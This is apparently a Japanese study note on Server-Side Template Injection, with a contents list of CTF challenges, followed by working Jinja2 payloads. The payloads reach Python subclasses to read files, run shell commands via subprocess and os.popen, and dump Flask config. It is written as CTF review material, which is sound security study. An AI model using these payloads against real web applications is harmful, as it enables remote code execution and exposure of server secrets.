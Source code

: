   - [jinja2 / bypass "&#91;&#93;" "config" "attr" "class" "join" (HackIT CTF 2018 Believer Case)](#jinja2--bypass--config-attr-class-join-hackit-ctf-2018-believer-case)
  - [jinja2 / bypass "config" "self" "request" "[]" "\"" "\_" "+" " " "join" "%" "%25"](#jinja2--bypass-config-self-request--%5C-%5C_----join--)
  - [その他](#%E3%81%9D%E3%81%AE%E4%BB%96)
  - [Docker環境があるやつ(復習用)](#docker%E7%92%B0%E5%A2%83%E3%81%8C%E3%81%82%E3%82%8B%E3%82%84%E3%81%A4%E5%BE%A9%E7%BF%92%E7%94%A8)
    - [The Usual Suspects (csictf 2020)](#the-usual-suspects-csictf-2020)
    - [miniblog (InterKosenCTF 2020)](#miniblog-interkosenctf-2020)
    - [BuggyBase2 (ISCbughunt101ctf 2020)](#buggybase2-iscbughunt101ctf-2020)
    - [Zumbo (BSidesSF CTF 2017)](#zumbo-bsidessf-ctf-2017)
    - [shrine (TokyoWestern CTF 2018)](#shrine-tokyowestern-ctf-2018)
- [メモ](#%E3%83%A1%E3%83%A2)
- [参考](#%E5%8F%82%E8%80%83)



# Server-Side Template Injection
## 概要
`<% %>`とかでViewの中に変数のデータを表示させたいときに、ユーザーの入力をそのTemplate構文の中に
入れるとRCEの脆弱性になるかもしれない。python,php,NodeJS,Ruby,Javaなど様々なTemplate構文においてその危険性がある。   
## websitesVulnerableToSSTI
https://github.com/DiogoMRSilva/websitesVulnerableToSSTI/blob/master/README.md   
以下のtplmapよりも多くのほぼすべてのテンプレートエンジンの環境があって、しかも`exploit.py`もついてる！！神！！   
### jinja2
(見やすくするために出力結果には適宜改行を入れてる。)   
結局、Python2なら`<type 'file'>`を使った以下  
```txt
''.__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read()
```
python3ならこの`__subclasses__`経由ではfileは存在しないが、`<class 'warnings.catch_warnings'>`,`<class 'subprocess.Popen'>`を使って以下のようにしてRCE!  
```txt
<class 'subprocess.Popen'>
{{ ''.__class__.__mro__[1].__subclasses__()[1439](["touch /tmp/test2"] , shell=True) }}

<class 'warnings.catch_warnings'>
{{ ''.__class__.__mro__[1].__subclasses__()[870]['__repr__']['__globals__']['sys']['modules']['os'].popen('echo AA').read() }}
{{ ''.__class__.__mro__[1].__subclasses__()[870]['__repr__']['__globals__'].get("__builtins__").get("__import__")("subprocess").check_output("echo AA" , shell=True) }}
```
#### config
- `{{config}}`   
```txt
Hello <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False,
'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': None,
'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False,
'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session',
'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY':
True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None,
'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None,
'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200),
'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False,
'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII':
True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE':
'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093}>! 
```
- `{{config.__globals__}}`   
```txt
Hello ! 
```